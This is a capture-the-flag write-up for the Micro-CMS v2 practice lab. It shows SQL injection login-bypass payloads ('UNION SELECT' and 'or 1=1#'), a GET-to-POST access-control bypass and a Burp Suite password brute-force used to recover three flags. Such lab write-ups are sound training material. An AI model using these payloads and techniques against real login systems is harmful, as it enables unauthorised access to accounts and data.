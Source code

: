 # Micro-CMS v2 - FLAG0

## Flag0 Solution

When clicked to view the website, we are presented with this. This is the same website as the one from Micro-CMS v1

![](./imgs/index.jpg)

When we try to create a new page, we are redirected to a login page.

Some credentials were tried but we are still not able to login

![](./imgs/login.jpg)

Next, SQL injection is tested against the website using ```'```. 

An SQL error message is received. 

Error message: 

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''' at line 1")
```

This shows that SQL injection is possible. Thus, bypass login is then tested against the website. 

In USERNAME = 

```sql
' UNION SELECT '123' AS password#
```

and PASSWORD = 123

```Complete SQL Command: 
SELECT password FROM admins WHERE username='admin' UNION SELECT '123' AS password#
```

Successful Login: 

![](./imgs/success.jpg)

Once we logged into the webpage, a private page is found. 

![](./imgs/private.jpg)

By viewing the page, the flag is found.

![](./imgs/flag.jpg)

## FLAG1 Solution 

Let's start off by trying to edit the page as a normal user.

```
http://127.0.0.1:5001/xxxxxxxxxx/page/edit/1
```

Using the ```repeater tab``` in Burpsuite, it shows that the webpage is redirecting it to the login page.

![](./imgs/get.jpg)

However, when the request is changed from a ```GET``` request to a ```POST``` request, the flag is shown.

![](./imgs/post.jpg)

## FLAG2 Solution 

Lastly, using the login page, SQL injection is used again to bypass username using the following command: 
```
' or 1=1#
```

Burpsuite is then used again to crack the password. 
![](./imgs/login_1.jpg)

By comparing the status, it is known that the password found is **grover** and the flag is obained in the response tab

![](./imgs/flag_1.jpg)